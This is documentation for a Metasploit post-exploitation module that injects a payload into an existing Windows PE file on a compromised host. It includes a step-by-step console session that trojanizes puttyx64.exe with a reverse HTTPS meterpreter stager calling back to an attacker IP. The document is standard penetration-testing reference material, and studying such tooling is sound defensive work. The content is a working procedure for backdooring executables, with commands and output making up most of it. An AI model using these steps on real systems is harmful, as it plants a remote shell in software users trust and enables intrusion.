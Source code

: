 ## Overview
This module inserts a payload into an existing PE file on a remote
machine.  When a user launches the binary, the payload will run
as a thread within the process with the same privs.

## Options
LHOST  IP of host that will receive the connection from the payload.
LPORT  Port for Payload to connect to.
OPTIONS Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
PAYLOAD Windows Payload to inject into the targer executable.
SESSION The session to run this module on.
TARGETPE Path of the target executable to Path of the target executable to be injected

## Limitations
This process is not reverse-able.  If you would like to return the
binary to it's original state, save a copy.

THE PAYLOAD WILL NOT SPAWN AN INDEPENDENT PROCESS/THREAD AND THE SESSION
WILL DIE WITH THE BINARY AND/OR WILL KILL THE BINARY WHEN THE SESSION
EXITS.  Be careful closing sessions that were spawned using this method!

If a setting is wrong, it may cause the binary to fail to launch,
alerting the user to possible shinnanigans.

## Vulnerable Applications
`Vulnerable` is a bad term; this module inserts shellcode into a pe
file.  That means any Windows pe files are `vulnerable`.
Be aware that some files like calc.exe on later Windows versions
are not entirely normal in their behvior and are not `vulnerable`

## Verification Steps
* get session on target
* `use post/windows/manage/peinjector`
* `set payload <payload>`
* `set lport <lport>`
* `set lhost <lhost>`
* `set targetpe <*.exe>`
* `run`

## Usage
```
meterpreter > sysinfo
Computer        : WIN10X64-1511
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/windows/manage/peinjector 
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                    Required  Description
   ----      ---------------                    --------  -----------
   LHOST                                        yes       IP of host that will receive the connection from the payload.
   LPORT     4433                               no        Port for Payload to connect to.
   OPTIONS                                      no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/meterpreter/reverse_https  no        Windows Payload to inject into the targer executable.
   SESSION                                      yes       The session to run this module on.
   TARGETPE                                     no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 post(windows/manage/peinjector) > set lport 4561
lport => 4561
msf5 post(windows/manage/peinjector) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf5 post(windows/manage/peinjector) > set session 1
session => 1
msf5 post(windows/manage/peinjector) > set targetpe 'C:\users\msfuser\downloads\puttyx64.exe'
targetpe => C:\users\msfuser\downloads\puttyx64.exe
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   LHOST     192.168.135.111                          yes       IP of host that will receive the connection from the payload.
   LPORT     4561                                     no        Port for Payload to connect to.
   OPTIONS                                            no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/x64/meterpreter/reverse_https    no        Windows Payload to inject into the targer executable.
   SESSION   1                                        yes       The session to run this module on.
   TARGETPE  C:\users\msfuser\downloads\puttyx64.exe  no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > run

[*] Running module against WIN10X64-1511
[*] Generating payload
[*] Injecting Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet) into the executable C:\users\msfuser\downloads\puttyx64.exe
[+] Successfully injected payload into the executable: C:\users\msfuser\downloads\puttyx64.exe
[*] Post module execution completed
msf5 post(windows/manage/peinjector) >
```

